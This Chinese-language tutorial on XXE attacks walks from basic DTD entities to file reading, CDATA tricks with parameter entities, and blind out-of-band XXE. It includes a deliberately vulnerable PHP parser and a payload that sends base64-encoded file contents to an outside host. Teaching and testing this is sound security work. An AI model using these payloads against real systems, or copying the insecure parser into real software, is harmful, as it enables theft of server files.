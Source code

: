 # XXE

## 基本的XML结构：

```
<?xml version="1.0" encoding="utf-8"?>			
<!DOCTYPE name [
	<!ELEMENT thing ANY>
	<!ENTITY arg "value">
]>
<thing>
	&arg;
</thing>
```

第一行表示这个一个XML。

第二-第四行是DTD，即文档约束，定义这个XML文档的一些结构啊属性啊实体啊什么的。这个ELEMENT表示body中的元素标签的名字，这里指定名字为thing，ANY表示接受任何元素。真正用的时候，可以不写ELEMENT也一样可以用XML。

在XXE中对于我们来说最有用的就是实体ENTITY。实体就像是在XML里的变量。上面就是定义了一个名为arg值为value的实体。

后面就是XML的body了。需要一个标签括起来，标签名就写上面ELEMENT定义的名字，如果上面没写，这里写啥都行。然后&arg;就是引用了实体arg。类似于用变量一样。

php解析XML的简单代码：

```
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

测试，将我们写的XXE发过去，可以看到直接输出了内容，这在XXE攻击里面叫“有回显的XXE”：

![](./xxe/1.png)



## 实体读取文件

上面的实体只是存了一个字符串，其实可以读取文件的，只需要加多一个 SYSTEM关键字，表示读取文件：

```
<!ENTITY arg SYSTEM "C:/flag.txt">
```

![](./xxe/2.png)

但是如果文件中有标签就么得了，比如文件内容为：

![](./xxe/3.png)

![](./xxe/4.png)

这是因为，在XML中引用进来的文件是会被解析的，我们读取的文件有标签，就会被解析器解析，解析完后发现这个XML格式不对劲，就会报错。

## CDATA的使用

好在我们有神器 CDATA ，加入了这个的话，就会告诉解析器里面的内容不需要解析：

```
<![CDATA[
	<one>a
	<two>b
]]>
```

![](./xxe/5.png)

既然如此，实体在body里会被解析，那我们读取文件的时候，拼接起来不就好了嘛，就像这样：

![](./xxe/6.png)

可惜现实给了我们一个大嘴巴子：

![](./xxe/7.png)

这是因为，在XML中，不能在一个XML中进行拼接，要拼接的话需要在另一个XML中拼接，拼完后再在原来的XML中进行调用，这个方式叫做引用其他实体。要是没看懂，先大概知道，继续往下看即可。

但是不是什么实体都可以引用外部实体的，这里引出一个参数实体的概念，参数实体可以引用别的实体，只能在DTD用，就是不能在body用。

## 参数实体与CDATA

参数实体格式（就是比普通的实体多了一个 % ）：

```
<!ENTITY % 名字 "值">
```

没看懂的话就看下面的图：

（1）参数实体只能在DTD中使用：

![](./xxe/8.png)

（2）参数实体可以拼接实体，由于XML的特性，只能在另一个XML中进行拼接，拼好了原XML再用参数实体拉过来：

![](./xxe/9.png)

其中 e.dtd 的内容还挺好理解。burp中第7行是将e.dtd的内容拉过来，但是拉过来是要执行的，所有第8行的 %out; 就是为了执行拉过来的e.dtd的内容。这样子我们就可以完成拼接了。

将拼接内容改成“CDATA”试试：

![](./xxe/10.png)



## Blind OOB XXE

即无回显的XXE，这种很常见，比较解析XML一般也不是直接呈现给用户的。

XML实体中，SYSTEM也可以发起请求：

 ![](./xxe/11.png)

我们来尝试读取flag.txt文件，这里由于是在url中的get请求，如果读取文件有回车换行什么的会报错。所以用php为协议将其base64编码一下。就不会有这些奇怪问题。（上面的好像也可以用base64编码来解决）

![](./xxe/12.png)

发现报错了。。这。。。

%content;没有被正确解析，除非我们再嵌套一个 ENTITY 进去，才可以解析：

```
<!ENTITY % out "<!ENTITY % go SYSTEM 'http://192.168.0.105?id=%content;'>">
```

![](./xxe/13.png)

这里又报错了，说的是实体里的值，不能有 % 这个符号，不过我们可以利用HTML实体化编码，XML也能识别：

```
<!ENTITY % out "<!ENTITY &#37; go SYSTEM 'http://192.168.0.105?id=%content;'>">
```

![](./xxe/14.png)

这里报的错是不能在一个XML里拼接实体，我们把它放到另一个XML里然后SYSTEM拉过来即可：

![](./xxe/15.png)